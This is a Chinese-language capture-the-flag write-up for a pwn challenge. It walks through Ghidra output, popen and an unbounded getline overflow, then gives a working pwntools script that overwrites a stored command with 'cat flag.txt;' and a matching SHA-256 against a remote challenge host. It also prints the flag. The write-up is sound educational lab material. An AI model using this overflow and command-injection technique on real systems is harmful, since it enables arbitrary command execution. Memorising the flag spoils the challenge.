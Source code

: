 ```c
                    /* /bin/cat ./secret_data.asc */
  local_60 = 0x6373;
  snprintf((char *)(param_1 + 32),0x1b,"%s",&local_78);
  local_58 = 0x6530306137383339;
  local_50 = 0x3563333134653133;
  local_48 = 0x6338306339666135;
  local_40 = 0x6139313164633936;
  local_38 = 0x3366653538363462;
  local_30 = 0x3165626362386362;
  local_28 = 0x3131363132386663;
                    /* 9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127 */
  local_20 = 0x3732313735343931;
  local_18 = 0;
  snprintf((char *)((long)param_1 + 0x11b),65,"%s",&local_58);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

这一堆16进制我自己拿去解密了，内容就是注释里写的那些（后面我才发现栈上有）。第二个snprintf将9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127格式化输出到param_1 + 0x11b所指的内容。param_1是存储我们输入的指针，加上0x11b正好就是local_1dd。但是吧第一个snprintf似乎是反编译错误，看汇编可以知道在调用snprintf前有这么一句：LEA        RDI,[RBX + 0x100]。rdi是第一个参数，对应上来应该是param_1+0x100才对。注意lea将内存地址直接赋给目的操作数，而不是跟mov一样将内存地址所对应的值赋给目的操作数。比如这里就是直接把RBX + 0x100的结果赋给rdi，而不是这个结果地址处的值赋给rdi。修正后对应的正好是command。

那怎么找到flag呢？

- ### popen
  > popen()会调用fork()产生子进程，然后从子进程中调用/bin/sh -c 来执行参数command 的指令。
  - 声明：FILE * popen(const char * command, const char * type);
  - 参数
    > type -- 可使用 "r"代表读取，"w"代表写入。<br>command -- 要执行的命令。

某种意义上跟system差不多。我们把command改成ls这类查看服务器文件的命令就可以找到flag了。

- ### getline
  > 生成一个包含一串从输入流读入的字符的字符串，直到以下情况发生会导致生成的此字符串结束。1）到文件结束，2）遇到函数的定界符，3）输入达到最大限度。
  - 声明：ssize_t getline(char **lineptr, size_t *n, FILE *stream);
  - 参数
    > lineptr：指向存放该行字符的指针，如果是NULL，则有系统帮助malloc，请在使用完成后free释放。<br>n：如果是由系统malloc的指针，请填0<br>stream：文件描述符

又是一个不检查输入大小的函数，有栈溢出。正好copyOfInput和command和local_1dd是挨着的，没有什么想法吗？我们可以将local_1dd覆盖为输入内容的sha值，这样就可以进入if语句了。把command溢出为ls，就可以查看文件了。ls发现flag名字为flag.txt，现在就可以直接cat了。

```python
from pwn import *
import hashlib
p = remote("61.147.171.105", 53940)
payload=b'a'*0x100
hash_code = hashlib.sha256(payload).hexdigest()
payload = payload+b"cat flag.txt;".ljust(0x1B, b"a") + hash_code.encode("ISO-8859-1")
p.sendline(payload)
p.interactive()
```

- ### Flag
  > cyberpeace{b316dfadc2338d7bb5d7559a1c068757}